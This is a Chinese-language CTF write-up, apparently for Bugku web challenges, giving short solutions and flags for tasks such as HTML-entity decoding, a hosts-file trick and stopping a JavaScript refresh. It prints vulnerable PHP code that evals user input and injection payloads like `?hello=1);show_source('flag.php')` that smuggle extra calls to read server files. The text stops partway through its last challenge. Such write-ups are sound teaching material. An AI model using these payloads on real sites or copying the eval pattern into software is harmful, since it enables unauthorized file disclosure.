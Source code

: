 ## web3
循环弹窗
- 阻止此页面创建更多对话框
- 看下源码 发现`<!-->`注释含有& # 数字组成字符串为html编码
- 解码得flag
- KEY{J2sa42ahJK-HS11III}

## 域名解析
题目：听说把 flag.baidu.com 解析到123.206.87.240 就能拿到flag
- 把`123.206.87.240 flag.baidu.com`加入host文件中
- 访问flag.baidu.com即可
- KEY{DSAHDSJ82HDS2211}

## 你必须让他停下
页面不断地跳
- 看源代码发现是js脚本不断刷新
  - burpsuite_pro抓包分析 send to repeater逐个go
- 或者干脆禁用js 参考相应浏览器设置
- flag{dummy_game_1s_s0_popular}

## 本地包含
看题目猜测有本地包含漏洞
```php
<?php
error_reporting(0);

include 'flag.php';
$a = @$_REQUEST['hello'];
eval(" var_dump( $a );");
highlight_file(__FILE__);
?> 
```
- 首先包含了flag.php 其次获取helle值 其次打印了变量相关信息
- 通过hello值构造payload打印flag.php代码`?hello=1);show_source('flag.php');var_dump(3`
- 或者`?hello= 1);print_r(file("./flag.php%22")`
- 看到flag
- flag{bug-ctf-gg-99}

## 变量1
提示我们flag In the variable ! 看到$$args 想到全局变量GLOBALS
- ```php
  <?php  
  error_reporting(0);
  include "flag1.php";
  highlight_file(__file__);
  if(isset($_GET['args'])){
    $args = $_GET['args'];
    if(!preg_match("/^\w+$/",$args)){
        die("args error!");
    }
      eval("var_dump($$args);");
  }
  ?>
  ```
  阅读得知`preg_match("/^\w+$/",$args)`输入args得满足此正则表达式
- 构造payload输出GLOBALS内容`?args=GLOBALS`
- flag{92853051ab894a64f7865cf3c2128b34}

## web5
hint：JSPFUCK??????答案格式CTF{**}
  ```